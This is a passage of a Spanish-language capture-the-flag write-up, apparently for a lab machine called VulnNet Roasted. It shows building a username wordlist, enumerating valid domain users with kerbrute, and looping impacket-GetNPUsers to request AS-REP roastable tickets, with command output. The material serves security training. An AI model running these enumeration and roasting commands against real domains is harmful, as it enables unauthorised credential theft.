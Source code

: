 Sacamos los nombres de todos los archivo que habiamos extraido posteriormente:
```bash
cat users.txt
Alexa Whitehat
Jack Goldenhand
Tony Skid
Johnny Leet
```

Simplemente es ejecutar el script, pasarle la lista de usuarios y listo este nos creara una lista de nombres de usuario con diferente nomenclatura que podemos utilizar para hacer bruteforcing:
![](/images_blog/img_vulnet_roasted/roasted_wordlist_format.png)
![roasted_wordlist_format](https://user-images.githubusercontent.com/76759292/131405038-80e9707b-7b3d-4e4c-aa81-4de55cb17044.png)

### Kerbrute

Comprobaremos cuales usuarios de nuestra lista son válidos en el dominio mediante un ataque de fuerza bruta con la herramienta [kerbrute](https://github.com/ropnop/kerbrute) :

* --dc colocamos la ip del controlador de dominio.
* -d colocamos el dominio completo.

```bash
kerbrute userenum --dc 10.10.45.157 -d vulnnet-rst.local formatted_name_wordlist.txt

    __             __               __     
   / /_____  _____/ /_  _______  __/ /____ 
  / //_/ _ \/ ___/ __ \/ ___/ / / / __/ _ \
 / ,< /  __/ /  / /_/ / /  / /_/ / /_/  __/
/_/|_|\___/_/  /_.___/_/   \__,_/\__/\___/                                        

Version: v1.0.3 (9dad6e1) - 08/29/21 - Ronnie Flathers @ropnop

2021/08/29 20:18:41 >  Using KDC(s):
2021/08/29 20:18:41 >   10.10.45.157:88

2021/08/29 20:18:41 >  [+] VALID USERNAME:   j-goldenhand@vulnnet-rst.local
2021/08/29 20:18:41 >  [+] VALID USERNAME:   a-whitehat@vulnnet-rst.local
2021/08/29 20:18:42 >  [+] VALID USERNAME:   j-leet@vulnnet-rst.local
2021/08/29 20:18:42 >  [+] VALID USERNAME:   t-skid@vulnnet-rst.local
2021/08/29 20:18:46 >  Done! Tested 56 usernames (4 valid) in 5.397 seconds
```

### GetNPUsers

Este script intentará enumerar y obtener TGTs para aquellos usuarios que tengan establecida la propiedad 'No requiere autenticación previa kerberos' (UF_DONT_REQUIRE_PREAUTH). [Impacket/GetNPUsers](https://www.aldeid.com/wiki/Impacket/GetNPUsers) [GetNPUsers.py](https://foxed.github.io/GetNPUsers/)

Podemos simplemente pasarle el diccionario o lo podríamos hacer así cualquier forma seria valida para cumplir con el objetivo:

```bash
for u in $(cat diccionario.txt);do impacket-GetNPUsers vulnnet-rst.local/$u -request -no-pass -dc-ip 10.10.45.157; done
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for enterprise-core-vn
[-] User enterprise-core-vn doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for a-whitehat
[-] User a-whitehat doesn't have UF_DONT_REQUIRE_PREAUTH set
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Getting TGT for t-skid
```